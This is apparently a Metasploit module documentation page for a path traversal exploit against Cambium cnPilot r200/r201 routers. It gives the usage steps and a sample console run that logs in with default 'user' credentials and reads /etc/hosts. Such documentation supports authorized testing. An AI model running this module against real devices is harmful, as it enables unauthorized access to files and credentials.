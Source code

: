 ## Vulnerable Application

This module exploits a File Path Traversal vulnerability in Cambium cnPilot r200/r201 devices to read arbitrary files off the file system. Affected versions - 4.3.3-R4 and prior.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_fpt```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set FILENAME [filename]```
5. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/cnpilot_r_fpt
msf auxiliary(cnpilot_r_fpt) > set RHOSTS 1.3.3.7
msf auxiliary(cnpilot_r_fpt) > set RPORT 80
msf auxiliary(cnpilot_r_fpt) > set FILENAME /etc/hosts
msf auxiliary(cnpilot_r_fpt) > run

[+] 1.3.3.7:80 - Cambium cnPilot confirmed...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "user":"user"
[*] 1.3.3.7:80 - Accessing the file...
[+] 127.0.0.1 localhost.localdomain localhost

[+] File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_fptlog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
